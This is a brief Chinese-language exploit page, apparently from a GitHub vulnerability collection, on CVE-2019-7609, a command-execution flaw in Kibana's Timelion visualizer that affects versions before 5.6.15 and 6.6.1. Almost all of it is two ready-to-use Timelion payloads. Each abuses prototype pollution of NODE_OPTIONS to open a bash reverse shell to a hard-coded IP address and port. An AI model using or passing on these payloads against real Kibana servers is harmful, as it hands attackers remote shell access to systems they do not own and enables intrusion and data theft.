#  CVE-2019-7609 Kibana Timelion visualizer命令执行
Ver: 5.6.15 版本以及 6.6.1 版本以前

- payload by [@securityMB](https://twitter.com/securityMB)

```javascript
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- payload by [@chybeta](https://twitter.com/chybeta)

```javascript
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![kibana](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/Kibana/pic/CVE-2019-7609.png)